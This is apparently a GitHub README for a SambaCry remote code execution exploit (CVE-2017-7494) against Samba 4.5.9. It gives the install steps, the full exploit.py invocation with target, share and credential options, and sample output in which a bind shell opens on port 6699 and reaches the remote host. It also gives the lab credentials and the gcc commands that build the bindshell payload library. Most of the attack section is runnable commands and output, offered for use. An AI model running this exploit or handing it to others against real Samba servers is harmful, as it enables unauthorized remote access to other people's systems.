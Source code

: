 # SambaCry RCE exploit for Samba 4.5.9

### Exploit

To properly run this exploit you will need a patched version of `impacket` python library and the other dependencies in requirements file. To install all of them, please run

```
pip install -r requirements.txt
```

If you run Python3, you need to run this software in a virtual environment. Please follow the steps:

```
pip install virtualenv
virtualenv -p /usr/bin/python2.7 venv # or wherever your python2.7 resides
source venv/bin/activate.sh
```

After that you can run it as the following:

```
./exploit.py -t <target> -e libbindshell-samba.so \
             -s <share> -r data/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

And you will get the following output

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

Exploit's arguments explained:

```
usage: exploit.py [-h] -t TARGET -e EXECUTABLE -s REMOTESHARE -r REMOTEPATH
                  [-u USER] [-p PASSWORD] [-P REMOTESHELLPORT]
```

* `-t` or `—target` - Set the remote host to attack.
* `-e` or `—executable` - Set the path on your **local system** where the lib that you want to load is located.
* `-s` or `—remoteshare` - Remote share where the file will be copied.
* `-r` or `—remotepath` - Where the file is located on the **remote system**.
* `-u` or `—user` - Username to log in with.
* `-p` or `—password` - Password to use to log in with.
* `-P` or `—remoteshellport` - If you are using a bind shell payload, connect to the payload after the attack is executed.

### Vulnerable environment

* User: `sambacry`
* Password: `nosambanocry`


### Alternative payloads

You can find one example of binding shell payload for this exploit in `bindshell-samba.c` file. Change it as you may find necessary. After that to generate a new binary, use:

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```


### Disclaimer
This repo is inspired from repo: opsxcq/exploit-CVE-2017-7494
